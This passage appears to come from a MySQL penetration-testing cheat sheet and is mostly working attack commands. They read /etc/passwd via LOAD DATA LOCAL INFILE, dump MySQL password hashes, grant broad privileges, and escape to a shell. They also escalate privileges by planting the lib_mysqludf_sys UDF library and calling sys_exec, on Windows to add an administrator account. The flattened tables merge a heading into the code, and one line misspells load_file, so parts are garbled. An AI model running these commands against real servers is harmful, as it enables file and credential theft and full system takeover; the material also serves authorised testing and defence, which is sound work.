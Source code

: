| 1  | load data local infile "/etc/passwd" into table test FIELDS TERMINATED BY '\\n';  |
|----|-----------------------------------------------------------------------------------|

Notice the “local” word, because without the “local” you can get:

| 1 2  | mysql\> load data infile "/etc/passwd" into table test FIELDS TERMINATED BY '\\n'; ERROR 1290 (HY000): The MySQL server is running with the --secure-file-priv option so it cannot execute this statement  |
|------|------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------|

Initial PoC: <https://github.com/allyshka/Rogue-MySql-Server>

In this paper you can see a complete description of the attack and even how to extend it to RCE: <https://paper.seebug.org/1113/>

Here you can find an overview of the attack: <http://russiansecurity.expert/2016/04/20/mysql-connect-file-read/>

Mysql User

It will be very interesting if mysql is running as root:

| 1  | cat /etc/mysql/mysql.conf.d/mysqld.cnf \| grep -v "\#" \| grep "user"  |
|----|------------------------------------------------------------------------|

Privilege escalation

Current Level of access

| 1 2  | mysql\>select user(); mysql\>select user,password,create_priv,insert_priv,update_priv,alter_priv,delete_priv,drop_priv from user where user='OUTPUT OF select user()';  |
|------|-------------------------------------------------------------------------------------------------------------------------------------------------------------------------|

Access Passwords

| 1 2  | mysql\> use mysql mysql\> select user,password from user;  |
|------|------------------------------------------------------------|

Create a new user and grant him privileges

| 1 2  | mysql\>create user test identified by 'test'; mysql\> grant SELECT,CREATE,DROP,UPDATE,DELETE,INSERT on \*.\* to mysql identified by 'mysql' WITH GRANT OPTION;  |
|------|-----------------------------------------------------------------------------------------------------------------------------------------------------------------|

Break into a shell

| 1 2  | mysql\> \\! cat /etc/passwd mysql\> \\! bash  |
|------|-----------------------------------------------|

Privilege Escalation via library

You can find compiled versions of this libraries in sqlmap: locate lib_mysqludf_sys.so and locate lib_mysqludf_sys.dllInstead of locate you can also use whereis to search for this libraries inside the host.

Linux

| 1 2 3 4 5 6  | use mysql; create table npn(line blob); insert into npn values(load_file('/tmp/lib_mysqludf_sys.so')); select \* from npn into dumpfile '/usr/lib/mysql/plugin/lib_mysqludf_sys.so'; create function sys_exec returns integer soname 'lib_mysqludf_sys.so'; select sys_exec('id \> /tmp/out.txt');  |
|--------------|-----------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------|

Windows

| 1 2 3 4 5 6 7 8 9 10 11  | USE mysql; CREATE TABLE npn(line blob); INSERT INTO npn values(load_files('C://temp//lib_mysqludf_sys.dll')); SELECT \* FROM mysql.npn INTO DUMPFILE 'c://windows//system32//lib_mysqludf_sys_32.dll'; CREATE FUNCTION sys_exec RETURNS integer SONAME 'lib_mysqludf_sys_32.dll'; SELECT sys_exec("net user npn npn12345678 /add"); SELECT sys_exec("net localgroup Administrators npn /add"); Extracting MySQL credentials from the database SELECT User,Host,Password FROM mysql.user; SELECT User,Host,authentication_string FROM mysql.user; mysql -u root --password=\<PASSWORD\> -e "SELECT User,Host,authentication_string FROM mysql.user;"  |
|--------------------------|------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------|

Extracting MySQL credentials from files
